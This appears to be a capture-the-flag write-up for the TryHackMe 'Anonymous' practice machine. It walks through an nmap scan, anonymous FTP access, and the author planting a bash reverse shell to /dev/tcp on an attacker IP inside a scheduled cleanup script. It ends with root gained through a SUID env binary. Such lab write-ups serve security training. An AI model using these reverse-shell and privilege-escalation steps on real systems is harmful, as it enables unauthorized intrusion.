 ```yaml
---
date: 2020-05-24 15:48:48
layout: post
title: "Anonymous"
subtitle:
description: Medium rated machine from Tryhackme
image: /writeup/assets/img/anonymous/anonymous.png
optimized_image:
category: Tryhackme
tags: tryhackme ftp
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/anonymous">Link</a> to the the Machine on Tryhackme. 

Starting with the nmap scan
```bash
nmap -T4 -p- -A 10.10.73.153
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 20:18 IST
Nmap scan report for 10.10.135.212
Host is up (0.23s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-05-24T14:49:01+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-24T14:49:00
|_  start_date: N/A

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   375.13 ms 10.9.0.1
2   373.50 ms 10.10.73.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.89 seconds
```

Found 4 open ports.
My first approach was to check for anonymous login on ftp and yes the anonymous login was allowed.

Inside the ftp server, a directory named scripts was present. The directory contained 3 files named **clean.sh , removed_files.log , to_do.txt.
I downloaded all files. The to_do.txt listed
```text
I really need to disable the anonymous login...it's really not safe
```
The clean.sh contents
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

and the removed_files.log conatained,
```text
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

So the clean.sh was running at some interval of time and then writing the removed_files.log

I added my command to get a reverse shell, next time the script executes.
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
        bash -i >& /dev/tcp/10.9.12.192/8888 0>&1 
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Made the permission of the local clean.sh same as on the ftp server
```bash
chmod 757 clean.sh
```
Uploaded it to the ftp server and then started listening for the connection.

After a while, got the reverse shell.
![placeholder](/writeup/assets/img/anonymous/shell.png "shell")
Made shell better by these commands.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```

Got the user flag

Looking for any interesting SUID binary,
```bash
find / -perm -u=s -type f 2>/dev/null
```
I found **env** binary as SUID.

Executed this command as given by GTFObins
```bash
env /bin/sh -p 
```
This gave me the root shell.
 
 Got the root flag.

